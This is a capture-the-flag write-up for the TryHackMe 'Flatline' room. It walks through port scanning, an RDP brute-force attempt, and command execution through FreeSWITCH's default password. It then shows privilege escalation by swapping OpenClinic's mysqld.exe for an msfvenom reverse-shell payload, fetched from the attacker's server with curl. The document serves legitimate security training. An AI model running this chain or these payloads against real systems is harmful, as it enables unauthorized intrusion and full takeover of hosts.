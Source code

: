 ## Flatline

Room link: https://tryhackme.com/room/flatline

## Scanning
I ran an full nmap scan with ping disabled after it didnt allow me to run a scan. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -p- -Pn [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-11 07:54 EST
Nmap scan report for [Remote IP]
Host is up (0.10s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
8021/tcp open  ftp-proxy

Nmap done: 1 IP address (1 host up) scanned in 253.58 seconds
```
I ran more aggressive scans on each of the ports from the full nmap scan since I wanted to gather some more information. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A -p 3389 -Pn [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-11 07:59 EST
Nmap scan report for [Remote IP]
Host is up (0.10s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-03-11T12:59:24+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2021-11-08T16:47:35
|_Not valid after:  2022-05-10T16:47:35
|_ssl-date: 2022-03-11T12:59:26+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A -Pn -p 8021 [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-11 07:59 EST
Nmap scan report for [Remote IP]
Host is up (0.098s latency).

PORT     STATE SERVICE          VERSION
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
```
I started up hydra to brute force a log in with RDP to see what would happen. 
```
hydra -L /home/ajread/resources/wordlists/SecLists/Usernames/Names/names.txt -P /home/ajread/resources/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt [Remote IP]rdp
```
## Enumeration
However, it didnt work so I decided to go after the more interesting FreeSwitch service. I found a possible exploitiation with command execution (https://www.exploit-db.com/exploits/47799). According to the exploit, FreeSwitch allow commands to be run after proper authentication. The default password for the service is ```ClueCon```. So, I renamed the exploit to ```freeswitch.py``` and connected to the service with the below command. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] whoami
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```
Therefore, I was able to run any command that I wanted with the ```freeswitch.py``` script that authenticated my socket with the remote service. Looking at the output of ```whoami```, I appear to be running as user on the system. 
## Initial Access
I had to do some digging around. But, I eventually found the location of the ```user.txt```. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "type C:\Users\Nekrotic\Desktop\user.txt"
Authenticated
Content-Type: api/response
Content-Length: 38

[REDACTED]
```
## Privilege Escalation 
Within the desktop directory of the user, I noticed a ```root.txt```. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "dir C:\Users\Nekrotic\Desktop"
Authenticated
Content-Type: api/response
Content-Length: 374

 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\Users\Nekrotic\Desktop

09/11/2021  07:39    <DIR>          .
09/11/2021  07:39    <DIR>          ..
09/11/2021  07:39                38 root.txt
09/11/2021  07:39                38 user.txt
               2 File(s)             76 bytes
               2 Dir(s)  50,561,933,312 bytes free
```
I tried to access it but it came up with the following output. Meaning, I was not able to read the txt file or I didnt have the proper permissions. My guess, I didnt have the proper permissions. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "type C:\Users\Nekrotic\Desktop\root.txt"
Authenticated
Content-Type: api/response
Content-Length: 14

-ERR no reply
```
I navigated to the Administrator home directory and found an interesting executable called OpenClinic. The name of the room is ```Flatline``` so I guessed that this exe has something to do with local privilege escalation, continuing on the medical theme. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "dir C:\Users\Administrator\Desktop"
Authenticated
Content-Type: api/response
Content-Length: 449

 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\Users\Administrator\Desktop

09/11/2021  07:18    <DIR>          .
09/11/2021  07:18    <DIR>          ..
08/11/2021  18:24       108,048,384 FreeSWITCH-1.10.1-Release-x64.msi
08/11/2021  06:05       413,584,335 OpenClinicSetup5.194.18_32bit_full_fr_en_pt_es_nl.exe
               2 File(s)    521,632,719 bytes
               2 Dir(s)  50,513,035,264 bytes free
```
There was a local privilege escalation exploit for that version of OpenClinic (https://www.exploit-db.com/exploits/50448). In this priv esc, I needed to modify the ```mysqld.exe``` or ```tomcat8.exe``` executables within the ```bin``` directory of ```mariadb``` and restart the OpenClinic service, which would execute the modified executable as system. In summary, exploit targets the ability for any user to modify ```mysqld.exe``` or ```tomcat8.exe``` which run as system. 

To be sure, I confirmed the existence and location of the vulnerable ```mysqld.exe```. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "dir c:\projects\openclinic\mariadb\bin\mysqld.exe"
Authenticated
Content-Type: api/response
Content-Length: 263

 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of c:\projects\openclinic\mariadb\bin

22/03/2021  23:47            26,600 mysqld.exe
               1 File(s)         26,600 bytes
               0 Dir(s)  50,526,441,472 bytes free
```
Following the local priv esc exploit, I created a payload with msfvenom on my local machine. 
```
ajread@aj-ubuntu:~/apps/metasploit-framework$ ./msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP] LPORT=9999 -f exe > /home/ajread/TryHackMe/practice/mysqld_evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
I set up a netcat listener on my local machine. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
I also served up an http server using python. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ sudo python -m http.server 80
[sudo] password for ajread: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
I used curl to grab the malicious ```mysqld_evil.exe``` from my local machine. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP]"curl http://[Local IP]/mysqld_evil.exe -o \"C:\projects\openclinic\mariadb\bin\mysqld_evil.exe\""
```
I saw it grab the shell from my server. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ sudo python -m http.server 80
[sudo] password for ajread: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
[Remote IP] - - [14/Mar/2022 19:30:13] "GET /mysqld_evil.exe HTTP/1.1" 200 -
```
I renamed the ```mysqld_evil.exe``` the correct name, ```mysqld.exe```. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "rename C:\projects\openclinic\mariadb\bin\mysqld_evil.exe mysqld.exe"
Authenticated
Content-Type: api/response
Content-Length: 14

-ERR no reply
```
Then, I restarted the machine. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "shutdown /r"
Authenticated
Content-Type: api/response
Content-Length: 14

-ERR no reply
```
And got admin access after a short reboot. 
```
C:\Users\Nekrotic\Desktop>type root.txt
type root.txt
[REDACTED]
```